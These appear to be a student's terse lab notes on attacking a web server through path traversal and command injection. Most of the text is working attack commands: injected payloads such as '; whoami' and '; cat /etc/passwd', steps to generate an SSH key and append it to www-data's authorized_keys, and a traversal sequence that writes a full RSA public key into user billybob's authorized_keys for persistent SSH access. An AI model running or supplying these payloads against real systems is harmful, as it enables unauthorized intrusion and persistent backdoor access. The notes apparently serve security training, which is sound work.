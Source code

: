 There will be a webserver on the ouside first.
-tricking file to read file from locations it shouldn't
- prepended path directories don't allow you to directly
- COMMAND INJECT - force site to run commands it was no designed to run
```shell
ls ; pwd 
#running below on server
 ; whoami
 ' ls the "www.html" directory
 ; cat /etc/passwd | grep www-data
 ; mkdir /var/www/.ssh
 ; ls -latr & netstat -rn
 || ifconfig
 ; mkdir /var/www/.ssh # make ssh directory in the ww-datas user folder
 ssh-keygen #this will ask o generate file. LEAVE DEFAULT
 cd .ssh
 cat id_rsa.pub # everything in this file is your ssh key
 #use ssh keys from machine to authenticate
 ; echo "RSA key" >> /var/www/.ssh/authorized_keys
 #now you can ssh in as www-data
 ssh www-data@<ip>
 ```
 ------------------------
 upload maliciouse file
 /var/www/html/uploads
 /var/www/

mkdir ../../../../../../home/billybob/.ssh
ls -shla ../../../../../../home/billybob

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDveZOWeA/wkiIal9Itl+4CV85j8lG5afCf6mCQ1NaXknhhoWjtQD1fTC2jXhTgkl5nh+54G1OzxEpuWe8a7mijkeiUWqQgIBqOvlv0Akx8Z7LUWP5cm1qx5v6DktGn2KmDucdAA+aEZk6oF6q5btPF14C2ShLDdOJT9R2V9HUciEKb9aLyZ28niIja8YWeEPl/UQWTHRijg2usXV693WwZRfvXWRWmEGz1wusNISntG+5Pk3WFg6SIeikQuVwgppjxftil2zHxlWyyZUdPC7pN1R8leXhF7Vrpw2C5xRcRxf0AFO/1JjLu9jfVaK+1+Jm6LHkuN/K0zT0qmpuT0KBr" >> ../../../../../../home/billybob/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDveZOWeA/wkiIal9Itl+4CV85j8lG5afCf6mCQ1NaXknhhoWjtQD1fTC2jXhTgkl5nh+54G1OzxEpuWe8a7mijkeiUWqQgIBqOvlv0Akx8Z7LUWP5cm1qx5v6DktGn2KmDucdAA+aEZk6oF6q5btPF14C2ShLDdOJT9R2V9HUciEKb9aLyZ28niIja8YWeEPl/UQWTHRijg2usXV693WwZRfvXWRWmEGz1wusNISntG+5Pk3WFg6SIeikQuVwgppjxftil2zHxlWyyZUdPC7pN1R8leXhF7Vrpw2C5xRcRxf0AFO/1JjLu9jfVaK+1+Jm6LHkuN/K0zT0qmpuT0KBr student@lin-ops
